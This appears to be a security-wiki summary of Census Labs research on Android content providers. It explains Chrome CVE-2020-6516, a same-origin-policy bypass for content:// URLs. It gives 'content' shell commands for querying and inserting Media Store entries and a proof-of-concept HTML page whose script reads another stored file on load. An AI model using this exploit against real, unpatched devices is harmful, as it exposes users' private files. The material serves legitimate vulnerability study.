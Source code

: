 





<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

**This is a summary of the post [https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/](https://census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/)**

### Listing Files in Media Store
To list files managed by the Media Store, the command below can be used:
```bash
$ content query --uri content://media/external/file
```

For a more human-friendly output, displaying only the identifier and path of each indexed file:
```bash
$ content query --uri content://media/external/file --projection _id,_data
```

Content providers are isolated in their own private namespace. Access to a provider requires the specific `content://` URI. Information about the paths for accessing a provider can be obtained from application manifests or the Android framework's source code.

### Chrome's Access to Content Providers
Chrome on Android can access content providers through the `content://` scheme, allowing it to access resources like photos or documents exported by third-party applications. To illustrate this, a file can be inserted into the Media Store and then accessed via Chrome:

Insert a custom entry into the Media Store:
```bash
cd /sdcard
echo "Hello, world!" > test.txt
content insert --uri content://media/external/file \
    --bind _data:s:/storage/emulated/0/test.txt \
    --bind mime_type:s:text/plain
```

Discover the identifier of the newly inserted file:
```bash
content query --uri content://media/external/file \
    --projection _id,_data | grep test.txt
# Output: Row: 283 _id=747, _data=/storage/emulated/0/test.txt
```

The file can then be viewed in Chrome using a URL constructed with the file's identifier.

For instance, to list files related to a specific application:
```bash
content query --uri content://media/external/file --projection _id,_data | grep -i <app_name>
```

### Chrome CVE-2020-6516: Same-Origin-Policy Bypass

The _Same Origin Policy_ (SOP) is a security protocol in browsers that restricts web pages from interacting with resources from different origins unless explicitly allowed by a Cross-Origin-Resource-Sharing (CORS) policy. This policy aims to prevent information leaks and cross-site request forgery. Chrome considers `content://` as a local scheme, implying stricter SOP rules, where each local scheme URL is treated as a separate origin.

However, CVE-2020-6516 was a vulnerability in Chrome that allowed a bypass of SOP rules for resources loaded via a `content://` URL. In effect, JavaScript code from a `content://` URL could access other resources loaded via `content://` URLs, which was a significant security concern, especially on Android devices running versions earlier than Android 10, where scoped storage was not implemented.

The proof-of-concept below demonstrates this vulnerability, where an HTML document, after being uploaded under **/sdcard** and added to the Media Store, uses `XMLHttpRequest` in its JavaScript to access and display the contents of another file in the Media Store, bypassing the SOP rules.

Proof-of-Concept HTML:
```xml
<html>
<head>
    <title>PoC</title>
    <script type="text/javascript">
        function poc()
        {
            var xhr = new XMLHttpRequest();

            xhr.onreadystatechange = function()
            {
                if(this.readyState == 4)
                {
                    if(this.status == 200 || this.status == 0)
                    {
                        alert(xhr.response);
                    }
                }
            }

            xhr.open("GET", "content://media/external/file/747");
            xhr.send();
        }
    </script>
</head>
<body onload="poc()"></body>
</html>
```

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}







